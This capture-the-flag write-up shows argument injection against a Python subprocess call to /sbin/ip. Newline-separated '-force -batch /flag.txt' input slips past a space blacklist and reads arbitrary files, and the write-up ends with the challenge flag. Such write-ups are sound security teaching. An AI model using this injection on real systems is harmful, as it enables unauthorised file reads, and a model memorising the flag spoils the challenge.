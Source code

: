 # Network Navigators Oddyssey: A Phoenix Rebirth
## Write-Up:
`shell=False` may prevent shell injections, but it won't make it immune against argument injection:
- If you go to "https://gtfobins.github.io/gtfobins/ip/" you'll find that the `ip` binary may disclose file contents when used with `-force -batch $FILENAME` arguments.
- The split() method's default seperators are whitespaces (Spaces, TABs, and new lines), so even after blacklisting spaces, an attacker can still inject something like this:
```
-force
-batch
/flag.txt
```
(Use Shift+Enter to return to the line)
This input we be splitted based on new lines, and our subprocess function will look like this:
```
subprocess.check_output(['/sbin/ip', '-force', '-batch', '/flag.txt'], text=True,timeout=1,stderr=subprocess.STDOUT, shell=False)
```
which will still get evaluated as a valid command, an we will be able to read the flag or any other file we desire.
## Flag:
`shellmates{5laugh73r_7h3_Pho3niXx!___1njec7_1T_w1tH_@rgum3ntSs!!}`